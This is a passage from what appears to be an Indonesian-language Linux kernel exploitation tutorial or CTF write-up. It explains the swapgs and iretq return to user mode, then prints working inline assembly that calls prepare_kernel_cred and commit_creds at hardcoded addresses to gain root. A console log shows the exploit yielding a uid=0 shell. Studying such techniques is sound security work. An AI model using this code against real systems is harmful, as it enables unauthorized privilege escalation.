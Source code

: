 ```
}

```
Dan satu hal lagi, pada x86_64, satu instruksi lagi yang disebut swapgsharus dipanggil sebelum iretq. Tujuan dari instruksi ini adalah untuk menukar GS register antara kernel-modedan user-mode. Dengan semua informasi tersebut, kita dapat menyelesaikan kode untuk mendapatkan hak akses root, lalu kembali ke user-mode:

```
unsigned long user_rip = (unsigned long)get_shell;

void escalate_privs(void){
    __asm__(
        ".intel_syntax noprefix;"
        "movabs rax, 0xffffffff814c67f0;" //prepare_kernel_cred
        "xor rdi, rdi;"
	    "call rax; mov rdi, rax;"
	    "movabs rax, 0xffffffff814c6410;" //commit_creds
	    "call rax;"
        "swapgs;"
        "mov r15, user_ss;"
        "push r15;"
        "mov r15, user_rsp;"
        "push r15;"
        "mov r15, user_rflags;"
        "push r15;"
        "mov r15, user_cs;"
        "push r15;"
        "mov r15, user_rip;"
        "push r15;"
        "iretq;"
        ".att_syntax;"
    );
}

```
ketika saya menjalankan kembali exploitnya

```
/ $ ./fuzz
[*] Saved state
[*] payload
ROOOT
/ # id
uid=0 gid=0
/ # exit
/ $ exit
The system is going down NOW!
Sent SIGTERM to all processes
Sent SIGKILL to all processes
Requesting system poweroff
[   69.619339] reboot: Power down
```
